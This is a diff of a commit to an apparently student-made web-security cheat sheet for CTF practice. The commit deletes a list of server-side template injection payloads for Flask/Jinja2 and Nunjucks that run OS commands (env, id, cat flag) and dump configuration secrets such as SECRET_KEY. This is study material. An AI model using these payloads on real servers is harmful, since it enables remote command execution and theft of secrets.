

Before and after one commit to snow-swallow/snow-swallow.github.io, a Markdown page: 6443_cheatsheet.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/6443_cheatsheet.md
+++ b/6443_cheatsheet.md
@@ -123,29 +123,7 @@ https://hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/in
 
 ### 常见flag
 ```
-{{config}}
-{{config.items()}}
-{{settings.SECRET_KEY}}
-{"secret":"{{config}}"}
-{"secret":"{{config.SECRET_KEY}}"}
-{"secret":"{{ config.__class__.__init__.__globals__['os'].popen('env').read() }}"}
-{"secret":"{{self.__dict__}}"}
-{"secret":"{{ config.__class__.__init__.__globals__['os'].popen('ls -F').read() }}"}
-{"secret":"{{ config.__class__.__init__.__globals__['os'].popen('cat flag').read() }}"}
 
-## 执行OS命令（command injection） - Flask SSTI
-{{ config.__class__.__init__.__globals__['os'].popen('env').read() }}
-{{ config.__class__.__init__.__globals__['os'].popen('ls -F').read() }}
-{{ config.__class__.__init__.__globals__['os'].popen('cat flag').read() }}
-
-## 执行OS命令（command injection） - Jinja2 SSTI
-{{cycler.__init__.__globals__.os.popen('id').read()}}
-{{cycler.__init__.__globals__.os.popen('/getpassword').read()}}
-
-
-## Nunjucks payload
-{{constructor.constructor('return process')().mainModule.require('child_process').execSync('id')}}
-{{constructor.constructor('return process')().mainModule.require('child_process').execSync('cat server.js')}}
 ```
 
 
````
